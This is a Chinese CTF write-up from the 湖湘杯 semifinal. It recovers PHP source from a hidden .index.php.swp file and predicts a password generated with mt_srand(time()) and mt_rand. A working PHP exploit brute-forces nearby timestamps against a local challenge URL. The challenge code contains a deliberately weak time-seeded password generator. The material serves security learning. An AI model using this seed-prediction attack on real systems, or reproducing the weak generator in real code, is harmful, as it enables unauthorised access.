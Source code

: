 # 随机数mt_srand--被sublime控制台坑惨了
>湖湘杯复赛

[toc]

## 解题过程
### 目录源码
我和李岩都没发现，最后看wp是
`.index.php.swp`注意前面的那个“点”，忘了是隐藏文件的可能性，长记性！！！得到源码。
```
<?php
error_reporting(0); // 关闭报错，error_reporting(E_ALL)报告所有的错误和警告
$flag = "xxxxxxxxxxxxxxxx";
echo "please input a rand_num !";
function create_password($pw_length =  10){
	$randpwd = "";
	for ($i = 0; $i < $pw_length; $i++){
		$randpwd .= chr(mt_rand(100, 200));
	}
	return $randpwd;
}

session_start();

mt_srand(time());

$pwd=create_password();

echo $pwd.'||';    
if($pwd == $_GET['pwd']){
    echo "first";
    if($_SESSION['userLogin']==$_GET['login'])
    	echo "Nice , you get the flag it is ".$flag ;
}else{
	echo "Wrong!";
}

$_SESSION['userLogin']=create_password(32).rand();

?>
```
### 分析
- 观察到`mt_srand()`函数与`mt_rand()`函数组合，参数是时间戳，可知这个随机数是可以被预测的，当随机数的种子定下后，随机数便以一个固定的序列出现。
- 打印`flag`要过两个判断，第一个是`pwd`由`chr(mt_rand(100, 200))`循环十次生成，第二个`login`的赋值在判断之后，所以为空。只需提交`pwd`即可。

### sublime输出字符问题

#### 可打印ascii字符
一开始拿sublime调试了好久发现连`echo $pwd.'||';`中的||都不输出，才发现又是字符的问题！！！
```
$randpwd .= chr(mt_rand(100, 200)); //可打印的ascii码在32-126之间
```
> sublime控制台什么都打不出来，即使在100-126之间字符在这里因为后续超过127的字符可能被当做delete字符然后把前面打出来的都删掉了（存疑）

平日都是控制台打印payload，然后拿着这一堆送到浏览器里或者hackbar再或者burp里，但是你现在打不出来啊，这可怎么办？？？

#### 解决办法
- 不用sublime控制台输出，用本地服务器运行然后浏览解释输出就行了，于是可以看到正常输出，就是一堆乱码。
- 让`$pwd`这个变量不跑出php，直接在php里利用，然后访问网页，通过`file_get_contents()`函数，参数里放url就好了。

### exp

```
<?php
function create_password($pw_length =  10){
	$randpwd = "";
	for ($i = 0; $i < $pw_length; $i++){
		$randpwd .= chr(mt_rand(100, 200));
	}
	return $randpwd;
}

// 这里的循环参数直接用时间戳的上下浮动作为循环变量，比较巧妙
for($i=time()-10;$i<time()+10;$i++)
{
	mt_srand($i);
	$pwd=create_password();
	$result=file_get_contents("http://127.0.0.1/index.php?pwd=$pwd&login=");
	echo $result.'<br>';
}
?>
```
同样不要用控制台运行，否则可能看不到结果。




## 知识小结

- 花式源码泄漏 `.index.php.swp`
- ascii可打印字符范围
- 字符集的显示
- `mt_srand()`与`mt_rand()`的随机数预测
- `$_SESSION[]`初始化的先后顺序